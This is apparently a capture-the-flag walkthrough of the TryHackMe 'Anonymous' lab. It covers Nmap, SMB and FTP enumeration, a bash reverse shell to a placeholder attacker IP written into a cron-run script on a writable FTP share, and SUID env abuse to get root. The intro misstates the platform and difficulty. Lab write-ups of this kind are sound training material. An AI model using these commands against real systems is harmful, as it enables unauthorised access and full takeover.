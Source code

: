 ```yaml
---
title: "Anonymous"
platform: "TryHackMe"
difficulty: "Medium"
date: 2024-02-20
tags: ["nse", "web"]
---
```


## Info

![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png)

Anonymous is an easy machine on HackTheBox that involves exploiting writable FTP services and SUID misconfigurations to gain root access. This walkthrough will guide you through the process of compromising the Anonymous machine, from initial reconnaissance to gaining root access.

## Reconnaissance

The initial reconnaissance was performed using **Nmap**, revealing the following open services:

```nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 09:36 EDT
Nmap scan report for 10.10.187.181
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.133.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-10-07T13:36:24+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-07T13:36:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .


```

According to  **Nmap** the target machine is running **FTP**, **SSH**, and **SMB** services.

### SMB Enumeration

Using `smbclient`, I enumerated the available shares:

```bash
smbclient -L //$ip/
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

The share `pics` was accessible and contained two image files:

```bash
smbclient //$ip/pics
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available

```

After downloading and analyzing the files for hidden data (steganography), no useful information was found. This turned out to be a rabbit hole.

### FTP Enumeration

The FTP server allows anonymous login and is writable. Listing its contents revealed a `scripts` folder containing several files:

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          946 Dec 02 14:44 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

```

The file `clean.sh` appears to be executed periodically via a cron job. The script logic is as follows:

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

The script checks for files in the `/tmp` directory and removes them, logging the activity. Since the FTP server is writable, I modified this script to include a reverse shell.

## Gaining Access

The FTP server was mounted using `curlftpfs`

```
curlftpfs anonymous@$ip mount/
```

Using **vim**, I added a bash reverse shell payload to `clean.sh`:

```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

After waiting for the cron job to execute, I received a reverse shell as the user `namelessone`.

![anonymous1](media/anonymous1.png)


## Privilege Escalation

### From `namelessone` to `root`

During enumeration, I discovered that the SUID bit was set on `/usr/bin/env`. Exploiting this allowed privilege escalation to `root`:

```
/usr/bin/env /bin/sh -p
```
Executing the above command granted root access:

```bash
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
```

## Conclusion

The `Anonymous` machine was compromised through a combination of enumeration, abuse of writable services, and exploitation of SUID misconfigurations.

--- 